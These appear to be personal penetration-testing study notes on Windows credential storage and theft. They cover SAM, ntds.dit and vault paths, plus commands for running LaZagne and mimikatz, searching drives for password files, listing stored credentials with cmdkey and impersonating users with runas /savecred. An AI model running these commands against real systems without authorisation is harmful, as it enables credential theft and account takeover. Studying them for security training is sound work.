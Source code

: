 # Storage
## SAM
Stored in the Security Account Manager (SAM) - database file 
LM hash or NTLM hash 
`%SystemRoot%/system32/config/SAM`
if computer in workgroup -> handles SAM database locally
in domain -> domain controller validate credentials from active directory databse (ntds.dit) in `%SystemRoot%\ntds.dit`

## Credential Locker 
allows users to save credentials they use to access various network resources and websites 
`C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`


# Harvesting 

lazagne (saved in /home/hnin)
copy it over to the targetn (legit just ctrl-c, v)

```
start lazagne.exe all
```

cmdline
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

counting files cmd
n: -> is the drive
```
dir n: /a-d /s /b | find /c ":\"
```

```cmd-session
n:\*cred* /s /b
```

```cmd-session
n:\*secret* /s /b
```

powershell 
```
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

```powershell-session
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```

this is finding the string in the file btw
```powershell-session
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```
## Attacking Windows Credentials Manager
Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):

- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`


Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials.


Export Windows Vaults to .crd files 

```
rundll32 keymgr.dll,KRShowKeyMgr
```


Use cmdkey to enumerate credentials 
```
whoami 


cmdkey /list
```
if we run into credentials that are domain credentials like `machine\user` then we can impersonate the stored user
```
runas /savecred /usr:machine\user cmd
```

you can also use mimikatz
```
privilege::debug
sekurlsa::credman
```